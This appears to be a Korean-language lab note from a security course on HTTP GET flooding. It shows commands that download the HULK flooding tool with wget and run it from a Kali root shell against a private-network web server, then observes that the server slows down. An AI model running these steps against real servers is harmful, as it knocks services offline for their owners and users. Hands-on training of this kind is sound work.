






## GET Flooding

- GET Flooding
  - 공격자가 동일한 URL을 반복 요청하여 웹 서버의 부하를 유발하는 공격
  - 요즘은 많이 보이지 않고 변형공격 GET 전송시에 랜덤으로 URL 을 변조하여 보내는 방식

- 실습

  - 구성도

  - 설정

    > 파일 다운로드

    ```
    wget https://github.com/grafov/hulk/archive/master.zip
    ```

    

    > 압축해제

    ```
    # unzip /root/master.zip
    ```

    

    > hulk.py 를 실행하려면 python이 필요하기 때문에 phython 확인

    ```
    # python
    ```

    

    ```
    # python2
    ```

    

  - 공격

    ```
    ┌──(root㉿kali)-[~/hulk-master]
    └─# cd hulk-master
    ┌──(root㉿kali)-[~/hulk-master]
    └─# python2 hulk.py http://172.16.0.120(웹서버주소)
    ```

    

  - 와이어샤크로 확인

    

  - 웹서버 접속시 접속은 되지만 느려진다

    

    

    

  